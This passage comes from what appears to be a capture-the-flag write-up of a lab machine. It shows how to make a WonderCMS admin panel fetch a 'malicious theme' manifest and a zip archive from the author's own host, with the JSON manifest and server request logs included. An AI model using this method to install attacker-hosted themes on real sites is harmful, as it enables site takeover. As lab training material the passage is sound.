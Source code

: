 #### Malicious Theme

The exploit used [above](#malicious-theme) had the admin submit a malicious theme providing the URL of the zip archive. Without knowing how that works, I’ll try to use the GUI admin panel here. The “Custom Module” form at the bottom of the “Themes” page says it takes the URL to a `wcms-modules.json` file. Giving it the URL to where I’m hosting the zip doesn’t work.

[This page](https://github.com/WonderCMS/wondercms/wiki/Custom-modules#custom-theme-module-requirements) shows how to create a `wcms-modules.json` file. I’ll create one from that template:

```

{
    "version": 1,
    "themes": {
        "theme-name": {
            "name": "Theme-0xdf",
            "repo": "http://10.10.14.6/repo",
            "zip": "http://10.10.14.6/theme223.zip",
            "summary": "Malicious Theme",
            "version": "1.0.0",
            "image": "http://10.10.14.6/image.jpg"
        }
    }
}

```

Hosting that and the same `theme223.zip` file from [above](#malicious-theme) on my Python webserver, I’ll submit the URL to the admin panel. There’s a popup warning that this is dangerous:

![image-20240812153608020](/img/image-20240812153608020.png)

There are three requests at my server:

```
10.10.11.28 - - [12/Aug/2024 15:36:13] "GET /wcms-modules.json HTTP/1.1" 200 -
10.10.11.28 - - [12/Aug/2024 15:36:13] "GET /wcms-modules.json HTTP/1.1" 200 -
10.10.14.6 - - [12/Aug/2024 15:36:14] code 404, message File not found
10.10.14.6 - - [12/Aug/2024 15:36:14] "GET /image.jpg HTTP/1.1" 404 -

```

It’s interesting that the first two are from Sea, and then the next GET for the image is from my browser. That suggests to me that the module was processed, and then displayed back as part of the page. The page I see is the main page with a popup:

![image-20240812153831570](/img/image-20240812153831570.png)

Back on the Themes page my theme is at the bottom with no image:

![image-20240812153858955](/img/image-20240812153858955.png)

There hasn’t been a request for the zip archive yet, but there’s an “Install” button. When I click it, two more requests:

